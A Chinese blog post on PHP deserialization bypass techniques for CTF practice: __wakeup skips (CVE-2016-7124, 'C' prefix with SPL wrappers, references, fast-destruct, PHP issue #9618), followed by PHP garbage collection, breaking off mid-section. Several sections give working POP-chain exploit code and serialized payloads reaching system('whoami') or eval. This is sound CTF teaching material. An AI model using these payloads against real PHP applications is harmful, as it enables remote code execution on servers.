---
title: "PHP反序列化bypass"
date: 2025-08-12T11:54:57+08:00
summary: "PHP反序列化bypass"
url: "/posts/PHP反序列化bypass/"
categories:
  - "PHP"
tags:
  - "PHP反序列化"
draft: false
---

因为最近在复习php框架的内容，所以想着把wakeup和一些反序列化的bypass一起迁移出来单开一篇文章方便后面查看

# 反序列化对类属性不敏感

php >= 7.1

这个点是我一直都在用的并且很好用，如果php版本是7.1+，那么反序列化的时候并不会很关注于类属性的修饰符，也就是说原本一个protected类型的属性，在我们序列化的时候改成public类型，在反序列化的时候依旧能正常反序列化

真的非常nice好用

# wakeup bypass

参考文章：

[PHP反序列化中wakeup()绕过总结](https://fushuling.com/index.php/2023/03/11/php反序列化中wakeup绕过总结/)

这个也算是一个比较重要的考点了，一般来说，绕过wakup无非就是下面几种:

## cve-2016-7124

适用版本：

- PHP5 < 5.6.25
- PHP7 < 7.0.10

这应该是最常见的wakeup()绕过漏洞了，就是适用的的php版本比较低

具体怎么实现呢？

> [!IMPORTANT]
>
> **让序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过`__wakeup`的执行**

我们写个简单的demo

```php
<?php
class test{
    public $a='成功';

    public function __wakeup(){
        $this -> a="绕过失败";
    }

    public function  __destruct(){
        echo $this->a;
    }
}
$a = new test();
$b = serialize($a);
echo $b."\n";
unserialize($b);
/*
 * O:4:"test":1:{s:1:"a";s:6:"成功";}
 * 绕过失败成功
 * */
```

正常来说`wakeup`魔术方法会先被触发，然后再进行反序列化

需要注意的是：unserialize函数其实是一个重构新对象的过程，所以这也是为什么这里在代码结束后会同时触发两个对象的`__destruct`方法的原因

绕过demo

```php
<?php
class test{
    public $a='成功';

    public function __wakeup(){
        $this -> a="绕过失败";
    }

    public function  __destruct(){
        echo $this->a;
    }
}
$a = new test();
$b = serialize($a);
echo $b."\n";
unserialize($b);
$c = "O:4:\"test\":2:{s:1:\"a\";s:6:\"成功\";}";
unserialize($c);
/*
 * O:4:"test":1:{s:1:"a";s:6:"成功";}
 * 绕过失败成功
 * */
```

## 使用C打头绕过

这个其实很多次都做到了，但是一直没有去总结，例如litctf2025的君の名は以及ctfshow2023年愚人杯的 ez_php都有考过这个绕过的手法

**ctfshow愚人杯 ez_php**

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}

?>
```

```php
<?php
class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "bypass successfully";
        system($this->ctfshow);
    }
}
$a = new ctfshow();
echo serialize($a);
//O:7:"ctfshow":0:{}
?>
```

我们把O改成C传入`C:7:”ctfshow”:0:{}`可以看到网页显示bypass



> [!CAUTION]
>
> 使用C代替O能绕过wakeup，但那样的话只能执行construct()函数或者destruct()函数，无法添加任何内容。

这时候该怎么做呢？

> [!IMPORTANT]
>
> **用一些原生类去包装一下这个序列化对象，让最后的序列化字符串是C开头**

首先我们要获得可以进行打包的函数

```php
<?php
// 获取当前所有已定义的类（包括内置类和用户自定义类）
$classes = get_declared_classes();

// 遍历每个类
foreach ($classes as $class) {
    // 获取当前类的所有方法
    $methods = get_class_methods($class);

    // 遍历类的每个方法
    foreach ($methods as $method) {
        // 检查方法名是否为 'unserialize'
        if (in_array($method, array('unserialize'))) {
            // 输出类名和方法名（格式：ClassName::methodName）
            print $class . '::' . $method . "\n";
        }
    }
}
/*
 * ArrayObject::unserialize
 * ArrayIterator::unserialize
 * RecursiveArrayIterator::unserialize
 * SplDoublyLinkedList::unserialize
 * SplQueue::unserialize
 * SplStack::unserialize
 * SplObjectStorage::unserialize
 */
```

挨个测试一下哪些可以用

### ArrayObject类



关注到一句话：This class allows objects to work as arrays.

这里的构造方法是需要传入一个数组，那我们试着传一下

```php
<?php
class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "bypass successfully";
        system($this->ctfshow);
    }
}
$a = new ctfshow();
$a -> ctfshow = "whoami";
$arr = array("evil" => $a);
$poc = new ArrayObject($arr);
echo serialize($poc);
//C:11:"ArrayObject":77:{x:i:0;a:1:{s:4:"evil";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}};m:a:0:{}}bypass successfullywanth3f1ag\23232
?>
```

是可以打得通的

### ArrayIterator类

其实和上面的没什么区别

```php
<?php
class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "bypass successfully";
        system($this->ctfshow);
    }
}
$a = new ctfshow();
$a -> ctfshow = "whoami";
$arr = array("evil" => $a);
$poc = new ArrayIterator($arr);
echo serialize($poc);
//C:13:"ArrayIterator":77:{x:i:0;a:1:{s:4:"evil";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}};m:a:0:{}}bypass successfullywanth3f1ag\23232
?>
```

### RecursiveArrayIterator类

也是一样

```php
<?php
class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "bypass successfully";
        system($this->ctfshow);
    }
}
$a = new ctfshow();
$a -> ctfshow = "whoami";
$arr = array("evil" => $a);
$poc = new RecursiveArrayIterator($arr);
echo serialize($poc);
//C:22:"RecursiveArrayIterator":77:{x:i:0;a:1:{s:4:"evil";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}};m:a:0:{}}bypass successfullywanth3f1ag\23232
?>
```

### SplObjectStorage类

```php
<?php
class test{
    public $test;
}
$a = new SplObjectStorage();
$a -> test = new test();
echo serialize($a);
//C:16:"SplObjectStorage":53:{x:i:0;m:a:1:{s:4:"test";O:4:"test":1:{s:4:"test";N;}}}
```

绕过

```php
<?php
class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "bypass successfully";
        system($this->ctfshow);
    }
}
$a = new SplObjectStorage();
$a -> test = new ctfshow();
$a -> test -> ctfshow = "whoami";
echo serialize($a);
//C:16:"SplObjectStorage":70:{x:i:0;m:a:1:{s:4:"test";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}}}bypass successfullywanth3f1ag\23232
?>
```

其实也就上面四个类能用，中间的

- SplDoublyLinkedList::unserialize

 * SplQueue::unserialize
 * SplStack::unserialize

这三个分别看了一下官方文档，并没有什么特别的声明，所以暂时是用不了的

## &引用地址绕过

当代码中存在类似`$this->a===$this->b`的比较时可以用`&`，使`$a`永远与`$b`相等，使用引用的方式让两个变量同时指向同一个内存地址，这样对其中一个变量操作时，另一个变量的值也会随之改变。

简单的demo

```php
<?php

class KeyPort{
    public $key;

    public function __destruct()
    {
        $this->key=False;
        if(!isset($this->wakeup)||!$this->wakeup){
            echo "You get it!";
        }
    }

    public function __wakeup(){
        $this->wakeup=True;
    }

}

if(isset($_POST['pop'])){

    @unserialize($_POST['pop']);

}
```

可以看到如果我们想触发echo必须首先满足:`if(!isset($this->wakeup)||!$this->wakeup)`的条件

也就是说要么不给wakeup赋值，让它接受不到$this->wakeup，要么控制wakeup为false，但我们注意到在`__wakeup`方法这里使`$this->wakeup=True`;，我们知道在用unserialize()反序列化字符串时，会先触发\_\_wakeup()，然后再进行反序列化，所以相当于我们刚进行反序列化$this->wakeup就等于True了，这就没办法达到我们控制wake为false的想法了

所以我们可以使用上面提到过的引用赋值的方法以此将wakeup和key的值进行引用，让key的值改变的时候也改变wakeup的值即可

所以我们的exp就是

```php
<?php

class KeyPort{
    public $key;

    public function __destruct()
    {
    }

}

$keyport = new KeyPort();
$keyport->key=&$keyport->wakeup;
echo serialize($keyport); 
#O:7:"KeyPort":2:{s:3:"key";N;s:6:"wakeup";R:2;}
```

例如有一道题

**[UUCTF 2022 新生赛]ez_unser**

```php
<?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);

```

这道题很明显可以看到一个eval，但是有一个`__wakeup`会把成员属性a的值置空，这时候需要让a能传进去并打出效果

测试一下

```php
<?php
class test{
    public $a;
    public $b;
    public $c;
}
$a = new test();
$a -> a = 1;
$a -> b = &$a -> a;
echo $a -> b;
//1
```

可以看到这里是成功引用地址去对b赋值了

因为最后销毁时会将c的值赋给b，所以poc

```php
<?php
class test{
    public $a;
    public $b;
    public $c;
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a  = new test();
$a -> c = "system('whoami');";
$a -> a = &$a -> b;
unserialize(serialize($a));
/*
wanth3f1ag\23232
wanth3f1ag\23232
```

## fast-destruct

在fushuling师傅的解释里面是这样的:

- 在PHP中如果单独执行`unserialize()`函数，则反序列化后得到的生命周期仅限于这个函数执行的生命周期，在执行完unserialize()函数时就会执行`__destruct()`方法
- 而如果将`unserialize()`函数执行后得到的字符串赋值给了一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁才执行析构方法

首先我们要知道一个正确完整的序列化字符串的结构：

- 正确的序列化字符串是以`}`结尾的
- 正确的序列化字符串的属性和属性值的长度一致

由此可以得出一个思路：

我们构造一个非法的，错误的序列化字符串，让unserialize()函数在完成对象创建和属性填充之后，他会检查整个字符串是否被完整且正确的解析（或者试图找到一个表示对象结束的` }`），此时会产生解析错误，那么就会抛出异常不会调用到`__wakeup()`方法。因为先前反序列化的对象确实会存在内存当中，此时php会利用GC回收机制销毁对象，那么就会调用到该对象的`__destruct()`方法

先拿一道题来讲一下

DASCTF X GFCTF 2022十月挑战赛 EasyPOP

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class fine
{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __invoke()
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        $this->cmd = "";
        die("Go listen to Jay Chou's secret-code! Really nice");
    }
}

class show
{
    public $ctf;
    public $time = "Two and a half years";

    public function __construct($ctf)
    {
        $this->ctf = $ctf;
    }


    public function __toString()
    {
        return $this->ctf->show();
    }

    public function show(): string
    {
        return $this->ctf . ": Duration of practice: " . $this->time;
    }


}

class sorry
{
    private $name;
    private $password;
    public $hint = "hint is depend on you";
    public $key;

    public function __construct($name, $password)
    {
        $this->name = $name;
        $this->password = $password;
    }

    public function __sleep()
    {
        $this->hint = new secret_code();
    }

    public function __get($name)
    {
        $name = $this->key;
        $name();
    }


    public function __destruct()
    {
        if ($this->password == $this->name) {

            echo $this->hint;
        } else if ($this->name = "jay") {
            secret_code::secret();
        } else {
            echo "This is our code";
        }
    }


    public function getPassword()
    {
        return $this->password;
    }

    public function setPassword($password): void
    {
        $this->password = $password;
    }


}

class secret_code
{
    protected $code;

    public static function secret()
    {
        include_once "hint.php";
        hint();
    }

    public function __call($name, $arguments)
    {
        $num = $name;
        $this->$num();
    }

    private function show()
    {
        return $this->code->secret;
    }
}


if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
    $a->setPassword(md5(mt_rand()));
} else {
    $a = new show("Ctfer");
    echo $a->show();
}
```

简单写一下链子

```php
sorry::__destruct()->show::__toString()->secret_code::show()->sorry::__get()->fine::__invoke()
```

poc

```php
<?php
class fine
{
    public $cmd;
    public $content;
}

class show
{
    public $ctf;
    public $time = "Two and a half years";

}

class sorry
{
    public $name;
    public $password;
    public $hint = "hint is depend on you";
    public $key;
}
class secret_code
{
    public $code;

}
//sorry::__destruct()->show::__toString()->secret_code::show()->sorry::__get()->fine::__invoke()
$sorry1 = new sorry();
$sorry1 -> password = "wanth3f1ag";
$sorry1 -> name = "wanth3f1ag";
$sorry1 -> hint = new show();
$sorry1 -> hint -> ctf = new secret_code();     //调用secret_code::show()
$sorry1 -> hint -> ctf -> code = new sorry();   //触发__get()
$sorry1 -> hint -> ctf -> code -> key = new fine();     //触发__invoke()
$sorry1 -> hint -> ctf -> code -> key -> cmd = 'system';
$sorry1 -> hint -> ctf -> code -> key -> content = 'whoami';
echo serialize($sorry1);
//O:5:"sorry":4:{s:4:"name";s:10:"wanth3f1ag";s:8:"password";s:10:"wanth3f1ag";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:6:"whoami";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;}
```

但这里的难点是需要绕过`__wakeup`的触发

```php
    public function __wakeup()
    {
        $this->cmd = "";
        die("Go listen to Jay Chou's secret-code! Really nice");
    }
```

fast-destruct实现方式有一下几种

- 删除最后的大括号
- 数组对象占用指针（改数字）

这两种方法都可以

```php
O:5:"sorry":4:{s:4:"name";s:10:"wanth3f1ag";s:8:"password";s:10:"wanth3f1ag";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:6:"whoami";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;

O:5:"sorry":4:{s:4:"name";s:10:"wanth3f1ag";s:8:"password";s:10:"wanth3f1ag";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":4:{s:3:"cmd";s:6:"system";s:7:"content";s:6:"whoami";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;}
```





这里其实利用的就是GC回收机制，放文章后面写吧

## php issue#9618

[php issue#9618](https://github.com/php/php-src/issues/9618)提到了最新版wakeup()的一种bug，当序列化字符串中的属性名或属性值的长度不一致时，PHP会继续反序列化，但会先触发 `__destruct()` 而不是 `__wakeup()`，从而绕过wakeup

适用版本:

- 7.4.x -7.4.30
- 8.0.x

此时有以下代码

```php
<?php

class A
{
    public $info;
    private $end = "1";

    public function __destruct()
    {
        $this->info->func();
    }
}

class B
{
    public $end;

    public function __wakeup()
    {
        $this->end = "exit();";
        echo '__wakeup';
    }

    public function __call($method, $args)
    {
        eval('echo "aaaa";' . $this->end . 'echo "bbb"');
    }
}

unserialize($_POST['data']);

```

如果正常的打的话会触发`_wakeup()`方法，如果我们修改一个变量名呢？

```php
<?php
class A
{
    public $info;
    private $end = "1";

}

class B
{
    public $znd;

}
$test=new A();
$test->info=new B();
echo serialize($test);
#O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"znd";N;}s:6:" A end";s:1:"1";}
```

正常的话因为end变量是私有属性，但是我们如果将里面的\0字符去掉

```php
O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"znd";N;}s:6:"Aend";s:1:"1";}
```



成功绕过`__wakeup`，那么如果我们补上空白符呢，结果可想而知



但其实这里的话改一下其他的属性或属性值也是可以的



但事实上只有当destruct和wakeup在不同类的时候才能用这个方法绕过，这里把这两个方法放在A类中看看



接下来我们来看一下GC回收机制

# GC回收机制

参考了一下包子的文章：https://baozongwi.xyz/2024/09/14/php-GC%E5%9B%9E%E6%94%B6%E6%9C%BA%E5%88%B6%E4%BB%A5%E5%8F%8A%E5%B8%B8%E8%A7%81%E5%88%A9%E7%94%A8%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/

额外参考文章：https://forum.butian.net/share/2352

## 什么是GC垃圾回收机制

官方文档：https://www.php.net/manual/zh/features.gc.php

> [!IMPORTANT]
>
> 在PHP中，使用`引用计数`和`回收周期`来自动管理内存对象的，没有任何变量指向这个对象时，这个对象就成为垃圾，PHP会将其在内存中销毁；这是PHP 的GC垃圾处理机制，防止内存溢出。它是在 **PHP 5.3** 之后引入的增强功能，帮助开发者自动管理内存，尤其是在复杂的应用场景下。

上面可以知道，在PHP中是用引用计数和回收周期去管理内存对象的，那这两个东西是什么呢？

## 引用计数

摘录官方文档https://www.php.net/manual/zh/features.gc.refcounting-basics.php

- 每个`php`变量存在一个叫`zval`的变量容器中。
- `zval`变量容器除了包含变量的类型和值，还包括两个额外的信息位。
- 第一个是`is_ref`，是个`bool`值，用来标识这个变量是否是属于引用集合。通过这个位，php引擎才能把普通变量和引用变量区分开来，由于`php`允许用户通过使用&来使用自定义引用，zval变量容器中还有一个内部引用计数机制，来优化内存使用。
- 第二个额外字节是 `refcount`，用以表示指向这个`zval`变量容器的变量个数。
- 所有的符号存在一个符号表中，其中每个符号都有作用域(scope)，那些主脚本(比如：通过浏览器请求的的脚本)和每个函数或者方法也都有作用域。

从这里不难看出，引用计数是一种内存管理技术，用来记录一个值或对象被多少个变量引用。每当一个变量指向某一个值的时候，这个值的引用计数就会增加；而当某个变量不再使用该值的时候，引用计数就会减少，若引用计数变为0的时候，系统会将其占用的内存空间释放。

写个demo

```php
<?php
$a = "aaa";
xdebug_debug_zval('a');
//a: (refcount=1, is_ref=0)='aaa'
?>
```

此时我们创建了一个变量a并赋值为aaa，那么此时该变量就会在当前的作用域中创建一个新的变量容器，其类型为string。

refcount设置为1表示只有一个符号变量使用了这个变量容器，is_ref设置为false(0)的话也就是非引用

尝试增加引用计数

```php
<?php
$a = "aaa";
$b = $a;
xdebug_debug_zval( 'a' );
//a: (refcount=1, is_ref=0)='aaa'
?>
```

哎？这里为什么还是1呢？

搜查之后发现，**因为 PHP 引擎对字符串、整数等简单类型进行了优化。在没有显式使用引用（&）的情况下，PHP 不会立即增加引用计数，而是采用“写时复制”（Copy-on-Write）策略来节省内存。**

这意味着当你将 `$a` 的值赋给 `$b` 时，PHP 并不会立即复制该值，而是让 `$b` 和 `$a` 指向同一个内存块，直到其中一个变量被修改。

所以我们想要增加引用计数的话需要这样子

```php
<?php
$a = "aaa";
$b = &$a;
xdebug_debug_zval( 'a' );
//a: (refcount=2, is_ref=1)='aaa'
?>
```

这样就对了，但是此时引用也变成了1

那如何减少refcount引用计数呢？那就是删除变量unset了

```php
<?php
$a = "aaa";
$b = &$a;
xdebug_debug_zval( 'a' );
unset($b);
xdebug_debug_zval( 'a' );
/*
a: (refcount=2, is_ref=1)='aaa'
a: (refcount=1, is_ref=1)='aaa'
```

但是对于简单标量例如整数、浮点数、布尔值等

```php
<?php
$a = 1;
xdebug_debug_zval('a');
//a: (refcount=0, is_ref=0)=1

$b = $a;
xdebug_debug_zval('a');
//a: (refcount=0, is_ref=0)=1

$c = &$a;
xdebug_debug_zval('a');
//a: (refcount=2, is_ref=1)=1

```

很神奇的是，在PHP中，PHP并没有为这些标量类型的值用refcount去进行维护，而是当使用`&`引用后，`is_ref`区分引用变量，`refcount`变为了2。

### 复合类型变量的处理

对于像Array和Object类型的情况会稍微复杂一些，array和object的属性会各自存储在自己的符号表中

写个demo

```php
<?php
$a = array('name' => 'wanth3f1ag','age' => 20);
xdebug_debug_zval( 'a' );
/*a: (refcount=2, is_ref=0)=array (
    'name' => (refcount=1, is_ref=0)='wanth3f1ag', 
    'age' => (refcount=0, is_ref=0)=20
)
```

然后我们增加引用计数

```php
<?php
$a = array('name' => 'wanth3f1ag','age' => 20);
$a['heigh'] = &$a['name'];
xdebug_debug_zval( 'a' );
/*a: (refcount=1, is_ref=0)=array (
    'name' => (refcount=2, is_ref=1)='wanth3f1ag',
    'age' => (refcount=0, is_ref=0)=20,
